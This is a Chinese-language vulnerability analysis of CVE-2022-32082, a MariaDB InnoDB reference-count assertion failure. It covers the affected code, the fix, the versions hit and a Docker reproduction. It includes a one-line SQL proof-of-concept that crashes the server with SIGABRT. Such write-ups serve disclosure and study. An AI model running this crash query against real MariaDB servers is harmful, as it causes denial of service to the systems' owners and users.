


# CVE-2022-32082 CWE-617 MariaDB 断言失败

## 漏洞背景

- **InnoDB 存储引擎**：MariaDB 中的一个高性能存储引擎，广泛应用于需要事务支持、数据完整性以及高并发访问的场景。它支持 **ACID**（原子性、一致性、隔离性、持久性）事务，并提供了 **行级锁**（相比于表级锁，行级锁能提高并发性能）。其使用引用计数机制来管理数据库中表对象的生命周期。每当数据库执行操作时，例如创建、查询、删除表，InnoDB 会增加或减少该表对象的引用计数（ref count）。当引用计数为零时，表示该表不再被使用，InnoDB 就可以释放该表所占用的内存和资源。
-  **table->get_ref_count() == 0**: InnoDB 存储引擎中的一个内部断言，目的是确保当一个表对象没有被任何操作引用时，其引用计数应该归零，并且可以安全地释放。当引用计数为零时，意味着没有任何活动操作正在使用该表，表对象可以被销毁并释放相关资源。引用计数是一种内存管理机制，用于跟踪表对象的使用状态。如果在表的引用计数应该为零时却不为零，就会触发断言失败，表明内存或资源管理出现问题，可能导致内存泄漏或其他错误。因此，这个断言的作用是确保表对象的生命周期得到正确管理，防止因错误的引用计数而导致系统崩溃或不稳定。

## 漏洞原理

InnoDB 会跟踪每个表的引用计数。在正常情况下，每次使用该表时，引用计数会增加；当操作结束并且该表不再被使用时，引用计数应该减少到零。然而，某些操作可能没有正确地增加或减少引用计数，导致引用计数不为零，触发断言失败。

在使用临时表时，InnoDB 会处理表对象的引用计数。如果临时表的引用计数在操作结束后没有正确归零，会导致`table->get_ref_count()` 断言失败，可能会导致程序崩溃。

## 漏洞定位

1、在 **storage\innobase\dict\dict0dict.cc** 文件第 **1884** 行 dict_sys_t::remove 函数用于从数据字典缓存中移除一个表的定义。其中的第 **1890** 行`ut_a(table->get_ref_count() == 0);` 这行代码是一个断言语句，用于在调试模式下验证某个条件是否成立。如果条件不成立，程序会终止并输出错误信息。该断言的目的是确保在删除一个临时表时，该表的引用计数已经正确归零，即没有其他地方在使用这个表。如果当删除一个临时表时，断言失败，说明在删除临时表时，其引用计数没有正确归零。接下来定位到用于删除临时表的函数。

```c
/** Evict a table definition from the InnoDB data dictionary cache.
@param[in,out]	table	cached table definition to be evicted
@param[in]	lru	whether this is part of least-recently-used eviction
@param[in]	keep	whether to keep (not free) the object */
void dict_sys_t::remove(dict_table_t* table, bool lru, bool keep)
{
	dict_foreign_t*	foreign;
	dict_index_t*	index;

	ut_ad(dict_lru_validate());
	ut_a(table->get_ref_count() == 0);
	ut_a(table->n_rec_locks == 0);
	ut_ad(find(table));
	ut_ad(table->magic_n == DICT_TABLE_MAGIC_N);
    // ... ...
}
```

2、在 **sql/temporary_tables.cc** 文件的第 **615** 行，THD::drop_temporary_table 函数用于删除一个临时表并释放与之相关的资源。在该方法中，没有确保所有与临时表相关的所有资源（如表处理器）被正确释放。这导致了引用计数不一致，在第 **666** 行调用 remove 函数后，触发了断言失败

```c
bool THD::drop_temporary_table(TABLE *table, bool *is_trans, bool delete_table)
{
  DBUG_ENTER("THD::drop_temporary_table");

  TMP_TABLE_SHARE *share;
  TABLE *tab;
  bool result= false;
  bool locked;

  DBUG_ASSERT(table);
  DBUG_PRINT("tmptable", ("Dropping table: '%s'.'%s'",
                          table->s->db.str, table->s->table_name.str));
// 锁定临时表，确保在删除过程中不会被其他线程访问
  locked= lock_temporary_tables();

  share= tmp_table_share(table);

  /* 检查表是否被使用 */
  All_share_tables_list::Iterator it(share->all_tmp_tables);
  while ((tab= it++))
  {
    if (tab != table && tab->query_id != 0)
    {
      /* Found a table instance in use. This table cannot be be dropped. */
      my_error(ER_CANT_REOPEN_TABLE, MYF(0), table->alias.c_ptr());
      result= true;
      goto end;
    }
  }

  if (is_trans)
    *is_trans= table->file->has_transactions();

  /*
    Iterate over the list of open tables and close them.
  */
  while ((tab= share->all_tmp_tables.pop_front()))
  {
    /*
      We need to set the THD as it may be different in case of
      parallel replication
    */
    tab->in_use= this;
    if (delete_table)
      tab->file->extra(HA_EXTRA_PREPARE_FOR_DROP);
    free_temporary_table(tab);
  }

  DBUG_ASSERT(temporary_tables);

  /* Remove the TABLE_SHARE from the list of temporary tables. */
  temporary_tables->remove(share);

  /* Free the TABLE_SHARE and/or delete the files. */
  free_tmp_table_share(share, delete_table);

end:
  if (locked)
  {
    DBUG_ASSERT(m_tmp_tables_locked);
    unlock_temporary_tables();
  }

  DBUG_RETURN(result);
}
```

漏洞的根本原因在于 `THD::drop_temporary_table` 函数没有确保所有与临时表相关的资源被正确释放，导致引用计数不一致。当后续调用 `dict_sys_t::remove` 函数时，由于引用计数不为零，触发了断言失败。

**修复：**

```cpp
if (is_error())
  table->file->ha_reset();
```

在处理错误时，调用 `table->file->ha_reset()` 来重置表文件的处理器。这确保了在删除临时表时，所有相关的资源（如表处理器）被正确关闭，从而避免引用计数不一致的问题。

## 漏洞修复


升级到 MariaDB 10.5.17、10.6.9、10.7.5、10.8.4、10.9.2 或对应分支的更高维护版本。MDEV-26433 修复会在 `dict_sys_t::remove()` 删除缓存定义前正确平衡临时表和数据字典对象的引用生命周期，确保执行断言检查时表引用计数已经归零。

升级前，不要授予不可信用户创建、修改或删除临时 InnoDB 表的权限，并避免在生产系统执行已知触发该问题的 DDL 序列。服务监控和自动重启只能缩短停机时间，无法阻止漏洞利用。

## 影响版本


**受影响的版本：** MariaDB 10.5.x 至 10.7.x

## 环境搭建

使用MariaDB v10.6.3，用户为root，密码为12345



## 漏洞复现

1、进入容器命令行，使用root用户登录，密码为12345

```bash
docker exec -it mariadb-10.6.3 bash
mariadb -u root -p
```

2、新建数据库testdb并切换至testdb数据库

```sql
create database testdb;
use testdb;
```

3、执行sql命令，可以看到遇到错误且容器自动关闭

```sql
CREATE TEMPORARY TABLE t1 (i TEXT(15) NOT NULL UNIQUE CHECK (i)) engine=innodb
  REPLACE SELECT NULL AS a;
```



4、查看容 MariaDB 崩溃日志:

- `[ERROR] mysqld got signal 6 ;`，即`SIGABRT`信号，通常表示发生了一个严重的错误，无法继续执行下去。
- `InnoDB: Failing assertion: table->get_ref_count() == 0`表明 **InnoDB 存储引擎** 在执行过程中遇到了一个断言失败问题，`table->get_ref_count() == 0` 断言意味着 **引用计数**（ref count）应该为零，如果引用计数没有正确归零，说明有某些代码路径存在问题，可能导致内存泄漏或资源未能正确释放。

```bash
docker logs mariadb-10.6.3
```


## POC分析

```sql
CREATE TEMPORARY TABLE t1 (i TEXT(15) NOT NULL UNIQUE CHECK (i)) engine=innodb
  REPLACE SELECT NULL AS a;
```

1、创建一个名为 `t1` 的 **临时表**，并将这个表的引用计数设置为 1。表中有一个名为 `i` 的列，这列的类型是 `TEXT(15)`，不允许为 `NULL`，并要求唯一。表使用 **InnoDB 存储引擎**。

2、使用 `REPLACE` 语句将查询结果插入该表。查询 `SELECT NULL AS a` 返回的值是 `NULL`，会被插入到 `t1` 表的 `i` 列中。

3、表 `t1` 中的列 `i` 被定义为 `NOT NULL`，但 `REPLACE` 语句试图插入 `NULL` 值，这违反了 `NOT NULL` 约束

`REPLACE` 语句是 **INSERT** 和 **DELETE** 操作的结合体。具体来说，`REPLACE` 会首先删除与新数据冲突的行，然后尝试插入新数据。如果插入失败（如违反约束），MySQL 可能没有正确撤销删除操作，导致表的状态不一致。

在这种情况下，**引用计数没有被正确减少**，即便操作没有成功执行，表对象的引用计数仍然保持不变，从而导致 InnoDB 在后续清理操作时遇到问题，进而触发 `table->get_ref_count()` 的断言失败。

1. **创建临时表时引用计数加 1**。
2. **执行 `REPLACE` 时引用计数再加 1**，因为它涉及到删除旧数据的操作。
3. **插入失败时引用计数没有减少**，因为操作没有成功完成。
4. **删除临时表时引用计数减 1**，但由于引用计数没有正确归零，最终触发了 `table->get_ref_count()` 的断言失败。

## 参考链接


[[MDEV-26433\] Assertion: table->get_ref_count() in 1915 dict0dict.cc row == 0 - Jira --- [MDEV-26433] assertion: table->get_ref_count() == 0 in dict0dict.cc line 1915 -  Jira](https://jira.mariadb.org/browse/MDEV-26433)

[MariaDB v10.5 to v10.7 was discovered to contain an... · CVE-2022-32082 · GitHub Advisory Database](https://github.com/advisories/GHSA-hx5h-h8m3-hvw4)

[MDEV-26433 assertion: table->get_ref_count() == 0 in dict0dict.cc lin… · MariaDB/server@8494758](https://github.com/MariaDB/server/commit/8494758e8e06aea5c8d4cddcff6c0a913bac4d23#diff-2aecffd0e15bde9e5af0779cc85e9b696aea360a65b2f6120e6f12bc697de292)
